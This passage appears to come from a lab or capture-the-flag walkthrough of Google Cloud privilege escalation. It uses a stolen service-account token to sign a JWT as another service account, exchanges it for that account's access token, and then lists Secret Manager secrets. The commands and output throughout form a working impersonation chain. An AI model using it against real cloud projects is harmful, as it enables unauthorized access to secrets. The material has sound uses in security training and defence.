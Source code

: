 First, we need to create the JWT claim set, we get the required format from the developer [documentation](https://developers.google.com/identity/protocols/oauth2/service-account#authorizingrequests).
```
export IAT=$(date +%s)
export EXP=$(($IAT + 3600))

cat > claims.json <<EOF
{
  "iss": "platform-middleware@gr-proj-4.iam.gserviceaccount.com",
  "scope": "https://www.googleapis.com/auth/cloud-platform",
  "aud": "https://oauth2.googleapis.com/token",
  "exp": $EXP,
  "iat": $IAT
}
EOF
```
We can use the `gcloud iam service-accounts sign-jwt` command with the `analytics` service account's access token (`token.txt`) to have Google sign a custom JWT as platform-middleware.
```
└─$ gcloud iam service-accounts sign-jwt claims.json signed-jwt.txt --iam-account=platform-middleware@gr-proj-4.iam.gserviceaccount.com --access-token-file token.txt 
signed jwt [claims.json] as [signed-jwt.txt] for [platform-middleware@gr-proj-4.iam.gserviceaccount.com] using key [edcfe28fd8b7499de9ba35ab391c79d86a5048cd]
```

Then we can `curl` to exchange the signed JWT at the OAuth 2.0 token endpoint for an access token representing the target service account. Save the access token to a file (`token.txt`). 
```
└─$ curl -s -X POST https://oauth2.googleapis.com/token \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "grant_type=urn:ietf:params:oauth:grant-type:jwt-bearer&assertion=$(cat signed-jwt.txt)" \
  | jq -r .access_token
ya29.c.<REDACTED>
```
We know that the `platform-middleware` service account is granted the `roles/secretmanager.viewer` role
```
└─$ gcloud projects get-iam-policy gr-proj-4
auditConfigs:
- auditLogConfigs:
  - logType: ADMIN_READ
  - logType: DATA_READ
  - logType: DATA_WRITE
  service: iam.googleapis.com
<SNIP>
- members:
  - serviceAccount:platform-middleware@gr-proj-4.iam.gserviceaccount.com
  role: roles/secretmanager.viewer
<SNIP>
```
Let's list available Secret Manager secrets using access token of `platform-middleware` service account
```
└─$ gcloud secrets list --access-token-file token.txt --project gr-proj-4
NAME              CREATED              REPLICATION_POLICY  LOCATIONS
payments          2025-04-02T14:36:59  automatic           -
payments-storage  2025-04-02T16:25:57  automatic           -

```
